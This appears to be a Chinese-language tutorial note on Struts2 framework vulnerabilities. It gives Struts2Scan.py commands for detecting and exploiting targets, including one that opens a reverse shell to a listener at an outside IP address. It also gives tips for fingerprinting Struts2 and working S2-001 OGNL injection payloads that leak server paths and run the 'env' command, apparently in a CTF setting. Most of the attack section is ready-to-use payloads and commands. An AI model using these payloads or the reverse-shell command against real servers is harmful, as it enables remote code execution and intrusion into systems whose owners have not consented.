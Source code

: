 ```yaml
---
title: struts2框架漏洞
date: 2023-08-12 20:47:18
categories:
- 网络安全
tags:
- web 
- java
description: |
    java框架漏洞
---
```


### 工具利用

`python Struts2Scan.py -u url` 检测
`python Struts2Scan.py -u url -n S2-001 --exec` 利用
`python3 Struts2Scan.py -u url -n S2-048 -d "name={exp}&age=11111&description=aaaa"  -lr 1.14.127.40:9999` 弹shell

### 判断是否基于struts2

通过网页后缀来判断，如`.do .action`，有可能不准
如果配置文件中常数`extension`的值以逗号结尾或者有空值，指明了`action`可以不带后缀，那么不带后缀的`uri`也可能是`struts2`框架搭建的
如果使用`Struts2`的`rest`插件，其默认的`struts-plugin.xml`指定的请求后缀为`xhtml,xml`和`json`
判断` /struts/webconsole.html `是否存在来进行判断，需要 `devMode` 为 `true`

#### S2-001

S2-001是当用户提交表单数据且验证失败时，服务器使用OGNL表达式解析用户先前提交的参数值，`%{value}`并重新填充相应的表单数据。例如，在注册或登录页面中。如果提交失败，则服务器通常默认情况下将返回先前提交的数据。由于服务器用于`%{value}`对提交的数据执行`OGNL`表达式解析，因此服务器可以直接发送有效载荷来执行命令。

了解下OGNL表达式中三个符号 %，#，$ 的含义

> - `%`的用途是在标志的属性为字符串类型时，计算OGNL表达式%{}中的值
> - `#`的用途访主要是访问非根对象属性，因为Struts 2中值栈被视为根对象，所以访问其他非根对象时，需要加#前缀才可以调用
> - `$`主要是在Struts 2配置文件中，引用OGNL表达式

```java
// 获取tomcat路径
%{"tomcatBinDir{"+@java.lang.System@getProperty("user.dir")+"}"}

// 获取web路径
%{#req=@org.apache.struts2.ServletActionContext@getRequest(),#response=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#response.println(#req.getRealPath('/')),#response.flush(),#response.close()}

// 命令执行 env，flag就在其中
password=%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"env"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}&username=1
```
